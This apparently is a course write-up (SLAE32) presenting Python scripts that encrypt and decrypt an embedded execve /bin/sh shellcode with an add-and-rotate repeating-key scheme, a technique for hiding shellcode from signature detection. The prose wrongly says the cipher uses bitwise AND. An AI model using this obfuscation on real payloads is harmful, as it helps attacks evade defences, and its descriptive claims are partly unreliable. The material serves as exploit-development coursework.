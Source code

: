 For the seventh assignment of the SLAE32 course we were required to create a custom cryptor and decryptor. Online I found many examples for RC4, AES, DES and other common encryptors, so I decided to do something different.  
For my cryptor I decided to create somewhat of a Cesaer Chipher. The cryptor takes a key, the example key is `key = "HelloFriend"`, and for every byte of the shellcode adds to it the corresponding byte of the key. When the key length is exceeded, the key repeats itself.  
In the example, the strength of this cryptor is quite terrible. Although it can be used in a way that makes it good. If the key is the same length of the shellcode, then this works as a One-Time Pad (OTP). For good encryption though, the key or "pad" should not be words, or even letters, of the english language. Each byte of the key should be a randomly generated hex value, ranging from `\x00` to `\xff`.   
This encryption method is not typically seen in production because the key lengths are huge, non-memerable strings, and the key is needed both at the cryptor and decryptor sides.   
Instead of XOR'ing I chose to use the bitwise AND operation, since I have used XOR quite a bit in the SLAE32 course.  
Obviously adding a byte from the shellcode and the key together is likely to exceed the maximum value of the result space. If this happens, the cryptor will subtract 256 (one byte) from the result, and store the remainder in the encrypted byte.  
When decrypting, it will simply check to see if a byte was subtracted, and add a byte back.  
Since my example uses a small, repeated key, I added that the byte be rotated to the left once when encrypting. Then rotate the byte to the right once when decrypting.  
## ADD Rotate-Left Cryptor
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
key = "HelloFriend"
encrypted = ""

keyArray = bytearray(key)
keyLength = len(bytearray(key))
count = 0				# This will be used to make the key the same length as the shellcode
for x in bytearray(shellcode) : 
	if count == keyLength :		# If their are no more letters in the key, reuse the key from the start
		count = 0
	x = x + keyArray[count]		# Add the first byte of shellcode and key together
	if x > 255 :
		x -= 256		# if the key is greater than a byte value, remove the extra byte
	if x > 127:
        	x = x - 128             # Remove the left-most bit
        	x = x << 1              # Shift to the left 1
        	x += 1                  # Add 1, to complete the rotate
        	encrypted += '\\x'
        	encrypted += '%02x' %x	# Add the rotated left hex to string 
	else:
        	encrypted += '\\x'       # No leftmost bit, just rotate
        	encrypted += '%02x' %(x << 1)
	count += 1

print encrypted
```

## SUB Rotate-Right Decryptor
```python
#!/usr/bin/python
encrypted = ("\xf2\x4a\x79\xa9\x3d\xea\xcb\xa3\x9b\x3b\x8d\x63\xa7\xeb\x9e\x7f\x9f\xa8\x79\xdd\x9e\x28\xa6\x64\xd9")
key = "HelloFriend"
decrypted = ""

keyArray = bytearray(key)
keyLength = len(bytearray(key))
count = 0
for x in bytearray(encrypted) : 
	if count == keyLength :
		count = 0
	oddEven = x % 2
	if oddEven == 1:
		x = x >> 1
		x = x + 128
	else:
		x = x >> 1
	x = x - keyArray[count]
	if x < 0 :
		x += 256
	decrypted += '\\x'
	decrypted += '%02x' %x	# Add the rotated left hex to string 
	count += 1

print decrypted

#if decrypted + key > 255
#	encrypted = decrypted + key - 256
#else 
#	encrypted = decrypted + key

#if encrypted - key < 0
#	decrypted = encrypted - key + 256
#else
#	decrypted = encrypted - key
```

